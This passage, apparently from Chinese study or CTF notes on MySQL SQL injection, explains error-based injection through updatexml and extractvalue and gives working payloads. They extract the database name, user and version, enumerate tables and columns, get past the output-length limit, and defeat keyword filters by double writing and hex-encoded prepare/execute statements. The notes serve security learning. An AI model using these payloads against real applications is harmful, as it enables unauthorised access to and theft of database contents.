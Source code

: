 1中无法回显，通过1中闭合union连接命令，在2中同样执行最终回显

#### 报错注入

- 基于XPAT(XML)报错注入函数（xpath）：`updatexml`对xml文档数据查询及修改，`extractvalue`查询
- 若`XPath_string`不符合格式会以系统报错提示错误，查询字符串长度最大32位，需使用`right(), left(), substr()`截取字符串

**获取用户名，数据库，版本**

- 可以将其中user(), database(), version()等替换为select语句

```bash
# updatexml获取
1' or (updatexml(1, concat(0x7e, database(), 0x7e), 1)) # 

# extractvalue 从 XML 数据中提取值 
xxx and (extractvalue(1, concat(0x7e, user(), 0x7e))); # 
```

**后续获取**

```sql
# 表名
1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#

# 字段名
1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('table_name')),0x7e),1))#
```

**字符限制绕过**

- right获取后半部分内容

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat((right(ziduan_name,25))))from(table_name)),0x7e),1))#
1'^extractvalue(1,right(concat(0x7e,(select(group_concat(ziduan_name))from(table_name))),30))#
```

#### 绕过

**关键字绕过**

将`or`, `select`, `union`, `where`, `and`, `from`进行屏蔽

`str_replace`函数屏蔽将目标字符串只过滤一次，可以通过双写绕过：`uunionnion, sselectelect, oorr`

**编码预处理绕过**

- select被过滤，将SQL语句16进制编码：`select * from a` ==> `123`
- prepare from预处理进行编码转换，execute执行prepare创建的SQL语句，SET一次只能赋一个值

```sql
SET@a=0x123;prepare execsql from @a;execute execsql; # payload
```

**Handler**
